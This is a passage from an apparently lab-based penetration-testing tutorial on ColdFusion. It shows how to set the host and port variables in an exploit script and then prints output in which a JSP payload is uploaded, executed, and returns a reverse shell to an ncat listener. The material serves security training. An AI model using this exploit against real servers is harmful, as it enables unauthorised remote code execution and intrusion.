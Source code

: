A quick `cat` review of the code indicates that the script needs some information. Set the correct information and launch the exploit.

**Exploit Modification**

Code: python

```python
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.55' # HTB VPN IP
    lport = 4444 # A port not in use on localhost
    rhost = "10.129.247.30" # Target IP
    rport = 8500 # Target Port
    filename = uuid.uuid4().hex
```

The exploit will take a bit of time to launch, but it eventually will return a functional remote shell

**Exploitation**

Attacking ColdFusion

```shell-session
AIceBear@htb[/htb]$ python3 50057.py 

Generating a payload...
Payload size: 1497 bytes
Saved as: 1269fd7bd2b341fab6751ec31bbfb610.jsp

Priting request...
Content-type: multipart/form-data; boundary=77c732cb2f394ea79c71d42d50274368
Content-length: 1698

--77c732cb2f394ea79c71d42d50274368

<SNIP>

--77c732cb2f394ea79c71d42d50274368--


Sending request and printing response...


		<script type="text/javascript">
			window.parent.OnUploadCompleted( 0, "/userfiles/file/1269fd7bd2b341fab6751ec31bbfb610.jsp/1269fd7bd2b341fab6751ec31bbfb610.txt", "1269fd7bd2b341fab6751ec31bbfb610.txt", "0" );
		</script>
	

Printing some information for debugging...
lhost: 10.10.14.55
lport: 4444
rhost: 10.129.247.30
rport: 8500
payload: 1269fd7bd2b341fab6751ec31bbfb610.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.247.30.
```